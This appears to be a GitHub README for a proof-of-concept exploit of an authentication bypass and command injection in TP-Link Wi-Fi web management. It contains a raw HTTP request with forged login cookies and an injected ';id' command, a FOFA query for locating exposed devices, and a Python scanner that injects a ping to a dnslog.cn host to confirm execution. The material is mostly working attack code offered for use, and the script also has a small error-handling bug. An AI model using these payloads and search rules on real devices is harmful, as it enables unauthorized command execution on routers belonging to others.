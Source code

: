 # tp-link_wifi_rce
TP-link WIFI web管理认证绕过+命令执行漏洞



TP-link WIFI web管理命令执行



poc：

POST /cgi-bin/jumpto.php?class=diagnosis&page=config_save&isphp=1 HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64; rv:22.0) Gecko/20100101 Firefox/22.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: cooLogin=1; cooUser=1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

call_function=ping&iface=eth0&hostname=;id

![image](https://user-images.githubusercontent.com/42840611/130399378-1f74cd39-dc16-40ba-83ef-0f28a86257ed.png)


fofa规则：

title="Wi-Fi Web管理"





漏洞检测脚本：

`#!/usr/bin/python`
`#-*- coding:utf-8 -*-`

`import click`
`import requests`


`def title():`
    `print('+------------------------------------------')`
    `print('+  作者：quanpangshu                       ')`
    `print('+  漏洞名称：TP-Link WIFI WEB管理命令执行漏洞')`
    `print('+  使用格式:  python3 poc.py   --help       ')`
    `print('+------------------------------------------')`


`def scan(host):`
    `url = str(host)+"/cgi-bin/jumpto.php?class=diagnosis&page=config_save&isphp=1"`
    `headers = {`
        `"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0",`
        `"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",`
        `"Accept-Language": "zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3",`
        `"Accept-Encoding": "gzip, deflate",`
        `"Content-Type": "application/x-www-form-urlencoded",`
        `"Cookie": "cooLogin=1; cooUser=1"`
    `}`
    `payload = "call_function=ping&iface=eth0&hostname= %3bping 5dsdj4.dnslog.cn"`

    try:
        rep = requests.post(url=url, headers=headers, data=payload, timeout=70, verify=False)
    except:
        print("漏洞不存在")
    if rep.status_code == 502:
        print("漏洞存在！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！请前往dnslog平台再次确认")
    else:
        print("漏洞不存在")

`@click.command()`
`@click.option("-h", "--host", help='Target URL; Example:http://ip:port。')`
`def main(host):`
    `title()`
    `scan(host)`

`if __name__ == '__main__':`
    `main()`







![image](https://user-images.githubusercontent.com/42840611/130399299-7c90b71e-c3ca-4f24-8cdb-0b6acbe7f0ff.png)


